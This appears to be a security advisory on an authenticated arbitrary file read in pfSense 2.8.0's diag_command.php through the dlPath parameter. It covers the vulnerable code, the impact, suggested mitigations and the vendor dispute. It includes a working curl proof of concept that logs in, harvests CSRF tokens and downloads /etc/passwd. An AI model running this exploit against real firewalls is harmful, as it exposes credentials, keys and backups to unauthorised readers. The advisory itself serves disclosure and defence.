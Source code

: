 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Interface

#### CVE ID: *Pending*

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE: CWE-552 (Files or Directories Accessible to External Parties)

#### CVSS Base Score: 6.5 (Medium)

#### Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

This occurs even when a user only has the `WebCfg - Diagnostics: Command` permission assigned.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> I appreciate the built-in security warning related to assigning the `WebCfg - Diagnostics: Command` privilege. However, this disclaimer does not constitute as proper access control.
>
> The existence of a warning does not justify a design that equates a single permission with unrestricted system-level file access.

**Assign group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept authenticates using a user account `dev` that is only assigned the `WebCfg - Diagnostics: Command` permission.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pfsense" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files listed in a whitelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded, dismissing the issue as intended behavior
* **2025-06-27:** Researcher rebuttal, but was dismissed again - initiated public disclosure due to vendor inaction

![image](https://github.com/user-attachments/assets/8317dd1d-95c7-4000-a942-f9435d40cfa8)

> While the vendor asserts that access to this page equates to root, this conflates GUI-level permissions with unrestricted backend access.
>
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

---

## Estimated CVSS Breakdown

| Metric                      | Value         | Justification                                          |
| --------------------------- | ------------- | ------------------------------------------------------ |
| **AV: Attack Vector**       | N (Network)   | Exploitable via the pfSense web interface over HTTPS   |
| **AC: Attack Complexity**   | L (Low)       | Straightforward POST request with valid CSRF token     |
| **PR: Privileges Required** | L (Low)       | Requires only Diagnostics: Command GUI permission      |
| **UI: User Interaction**    | N (None)      | No additional interaction needed                       |
| **S: Scope**                | U (Unchanged) | Same component boundary (web app reads system file)    |
| **C: Confidentiality**      | H (High)      | Arbitrary file read, including credentials and configs |
| **I: Integrity**            | N (None)      | No tampering                                           |
| **A: Availability**         | N (None)      | No denial-of-service                                   |

**Base Score: 6.5 (Medium)**
